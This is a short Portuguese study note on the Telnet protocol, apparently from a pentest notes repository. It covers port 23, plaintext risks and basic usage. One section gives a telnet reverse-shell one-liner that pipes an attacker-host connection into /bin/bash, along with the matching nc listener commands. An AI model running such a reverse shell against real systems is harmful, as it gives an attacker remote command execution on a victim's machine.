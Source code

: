 
---

O **Telnet** (Telecommunication Network) é um protocolo de rede usado para acessar dispositivos remotamente por meio de uma interface de linha de comando. Ele foi um dos primeiros protocolos da internet e permite que um usuário controle um sistema remoto como se estivesse localmente no terminal.

### Características do Telnet:

- Utiliza a porta **23** por padrão.
- Baseado no **protocolo TCP/IP**.
- Proporciona **acesso remoto** a servidores, roteadores e switches.
- Envia dados **em texto puro**, o que significa que **não é seguro**, pois senhas e comandos podem ser interceptados.

### Uso do Telnet:

1. **Testar conectividade de portas**

```bash
telnet {ip ou hostname} {porta}
```

2. **Acessar um servidor remoto**

```bash
telnet {ip ou hostname}
```

3. **Útil para fazer um reverse shell, caso a maquina da vitimas não possua NCAT ou NETCAT.**

```bash
telnet {ip do atacante} 4444 | /bin/bash | telnet {ip do atacante} 4445
```
OBS:  No exemplo acima o atacante abre duas portas, a vitima vai se conectar na primeira porta e enviar o seu shell para o atacante, ira conectar também na segunda porta, no caso a segunda porta ira retornar as saida dos comando que forem passado na primeira porta.

```bash
nc -vnlp 4444
```

```bash
nc -vnlp 4445
```


### Problemas de Segurança:

- **Sem criptografia**: Qualquer pessoa na rede pode capturar os dados transmitidos.
- **Facilidade para ataques de interceptação (sniffing)**.
- **Uso obsoleto**: Foi amplamente substituído pelo **SSH (Secure Shell)**, que oferece criptografia e autenticação seguras.